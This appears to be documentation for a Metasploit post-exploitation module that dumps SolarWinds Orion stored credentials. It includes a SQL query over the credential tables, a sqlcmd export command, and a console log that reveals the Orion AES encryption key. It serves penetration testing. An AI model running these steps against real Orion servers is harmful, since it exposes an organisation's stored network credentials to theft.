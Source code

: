 ### SQL Data Acquisition

The sqlcmd binaries (part of the SQL Server Management Studio) must be installed on the system
to access the database. Orion does not install SSMS or sqlcmd by default if it is not also
installing a local SQL server instance - in such cases, it will be necessary to extract the
encrypted database manually and provide the module with a path to the extracted data. To do so
execute the SQL query below against the Orion database and save the resulting row set as a CSV file.

The CSV header must match:

`CredentialID,Name,Description,CredentialType,CredentialOwner,CredentialPropertyName,Value,Encrypted`

Columns are cast `VARBINARY` to deal with poor CSV export support in `sqlcmd`. Export the results of
the query below to CSV file:

```
SELECT 
  c.ID AS CredentialID,
  CONVERT(VARBINARY(1024),c.Name) Name,
  CONVERT(VARBINARY(1024),c.Description) Description,
  CONVERT(VARBINARY(256),c.CredentialType) CredentialType,
  CONVERT(VARBINARY(256),c.CredentialOwner) CredentialOwner,
  CONVERT(VARBINARY(1024),cp.Name) CredentialPropertyName,
  CONVERT(VARBINARY(8000),cp.Value) Value,
  cp.Encrypted 
FROM
  [dbo].[Credential] AS c
JOIN 
  [dbo].[CredentialProperty] AS cp ON (c.ID=cp.CredentialID)
```

Output must be encoded VARBINARY per above, and must be well-formed CSV (i.e. no trailing whitespace).
If using `sqlcmd`, ensure the `-W` and `-I` parameters are included to strip trailing whitespace and
allow quoted identifyers. Suggested syntax for `sqlcmd` using Windows authentication is below, where
the contents of `solarwinds_sql_query.sql` is the text of the SQL query above:

`sqlcmd -d "<DBNAME>" -S <MSSQL_INSTANCE> -E -i solarwinds_sql_query.sql -o solarwinds_dump.csv -h-1 -s"," -w 65535 -W -I`

This should place a CSV export file suitable for use within the module at `solarwinds_dump.csv`. If
using SQL native auth, replace the `-E` parameter with

`-U "<MSSQL_USER>" -P "<MSSQL_PASS>"`

### Examples

Windows Server 2019 host running Orion NPM 2020 using the `dump` action:

```
msf6 exploit(multi/handler) > use post/windows/gather/credentials/solarwinds_orion_dump
msf6 post(windows/gather/credentials/solarwinds_orion_dump) > set session 1
session => 1
msf6 post(windows/gather/credentials/solarwinds_orion_dump) > dump

[*] Hostname WINNING IPv4 192.168.101.125
[*] SolarWinds Orion Build 2020.2.65120.0
[*] SolarWinds Orion Install Path: C:\Program Files (x86)\SolarWinds\Orion\
[*] Init SolarWinds Crypto ...
[*] Decrypt SolarWinds CryptoHelper Keystorage ...
[+] Compressed size: 2104
[+] Orion AES Encryption Key
[+]     HEX: 2F627B78981DEADE0447CC7BDDEADE4E84FCB96AF1C6DEAD621F28547E93A82
```